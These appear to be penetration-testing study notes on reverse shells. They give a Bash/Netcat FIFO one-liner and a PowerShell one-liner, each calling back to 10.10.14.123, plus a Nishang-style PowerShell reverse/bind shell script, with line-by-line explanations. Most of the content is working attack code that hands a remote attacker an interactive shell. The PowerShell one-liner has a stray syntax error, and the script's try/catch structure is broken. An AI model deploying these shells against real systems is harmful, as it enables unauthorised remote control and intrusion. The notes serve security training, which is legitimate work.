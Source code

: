 # Examining Shells and Payloads

## The classic Netcat/Bash Reverse Shell One-Liner
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.123 1337 > /tmp/f
```

- `rm -f /tmp/f;` force-removes the `/tmp/f` file, if it exists.

- `mkfifo /tmp/f` creates a `first-in-first-out` named pipe at the location specified. In this case, `/tmp/f` is the FIFO named pipe file.

- `cat /tmp/f |` concatenates the FIFO named pipe file, connecting the standard stdout of `cat /tmp/f` to the  the stdin of the command that comes next.

- `/bin/bash -i 2>&1 |` specifies our command language interpreter using the `-i` option to ensure the shell is interactive. `2>&1` ensures the standard error data stream (2)& stdin data stream (1) are redirected to the command that comes next.

- `nc 10.10.14.123 1337 > /tmp/f` uses Netcat to send a connection to the host on port 1337. The output will be redirected to `/tmp/f`, serving the Bash shell to our waiting listener when the shell gets executed.

## The Powershell One-Liner

```
powershell -nop -c 
	$client = New-Object System.Net.Sockets.TCPClient('10.10.14.123', 443;)
	$stream = $client.GetStream();

	[byte[]]$bytes = 0..65535 | %{0};

	while(
		($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){
			;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(
				$bytes,0,$i);

			$sendback = (iex $data 2>&1 | Out-String);
			$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
			$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
			$stream.Write($sendbyte,0,$sendbyte.Length);
			$stream.Flush()
		};
	# $client.Close in order to close when finished...
```

- `powershell -nop -c` executes powershell with no-profile `-nop`, executing the command/script block containted in quotes

- `$client = New-Object` Sets/evaluates the variable of `$client` to equal the New-Object cmdlet, creating a new TCPClient instance.

- `$stream = $client.GetStream()` Sets/evaluates the variable of `$stream` to equal the `$client` variable and the .NET framework method `GetStream`, facilitating the newtork communication.

- `[byte[]]$bytes = 0..65535 | %{0};` creates an empty byte-array called `$bytes` that returns 65,535 zeros as the value of the array. This is essentially an empty byte stream that will be redirected to the TCP listener on the attack box.

- `while (($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0` starts a while-loop containing the $i variable set equal to the .NET's framework `Stream.Read` method. The parameters: buffer ($bytes), offset by (0), and count ($bytes.Length) are defined inside these parentheses of the mehtod.

- `{;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i)` Sets/evaluates the variable of $data to equal an ASCII encoding .NET framework class, used in conjunction with the GetString method to encode the byte-stream into ASCII. What we type won't just be transmitted and received as empty bits anymore, but will be encoded as ASCII text so that we can actually read it (while $i != 0);

- `$sendback = (iex $data 2>&1 | Out-String);` Sets/evaluates the variable $sendback equal to the Invoke-Expression cmdlet against the $data variable, then redirects stderr (2>)& stdin (1) through a pip to the Out-String cmdlet, converting input objects into strings. Because Invoke-Expression is used, everyting stored in $data will be run on the local computer.

- `$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';` Sets/evaluates the variable $sendback2 equal to the $sendback variable but while appending some quality-of-life path-string and other symbols so that we can actaully tell where we are/what we're doing.

- `$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$Stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}` Sets/evaluates the variable $sendbyte equal to the ASCII encoded byte stream

- Using `$client.Close()` will close the connection completely once exited from the stream.

We can turn this into a powershell script. This is an example from `Nishang Project`:

```
[CmdletBinding(DefaultParameterSetName="reverse")] Param(

    [Parameter(Position = 0, Mandatory = $true, ParameterSetName="reverse")]
    [Parameter(Position = 1, Mandatory = $false, ParameterSetName="bind")]
    [String]
    $IPAddress,

    [Parameter(Position = 1, Mandatory = $true, ParameterSetName="reverse")]
    [Parameter(Position = 1, Mandatory = $true, ParameterSetName="bind")]
    [Int]
    $Port,

    [Parameter(ParameterSetName="reverse")]
    [Switch]
    $Reverse,

    [Parameter(ParameterSetName="bind")]
    [Switch]
    $Bind
)

try {

    if ($Reverse) {
        $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
    }
    if ($Bind) {
        $listener = [System.Net.Sockets.TcpListener]$Port
        $listener.start()
        $client = $listener.AcceptTcpClient()
    }

    $stream = $client.GetStream()
    [byte[]]$bytes = 0..65535 | %{0}

    $sendbytes = ([text.encoding]::ASCII).GetBytes(
        "Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n"
        )
    $stream.Write($sendbytes,0,$sendbytes.Length)

    $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '> ')
    $stream. Write($sendbytes,0,$sendbytes.Length)

    while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0)
    {
        $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
        $data = $EncodedText.GetString($bytes,0,$i)
        
        try {
            $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String)
        }
        catch {
            Write-Warning "Something went wrong with the execution of command on-tgt."
            Write-Error $_
        }
        $sendback2 = $sendback + 'PS ' + (Get-Location).Path + '> '
        $x = ($error[0] | Out-String)
        $error.clear()
        $sendback2 = $sendback2 + $x

        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
        $stream.Write($sendbyte,0,$sendbyte.Length)
        $stream.Flush()
    }
    $client.Close()

    if ($listener) {
        $listener.Stop()
    }
    catch {
        Write-Warning "Something went wrong! Check if server reachable and correct port."
        Write-Error $_
    }
}
```

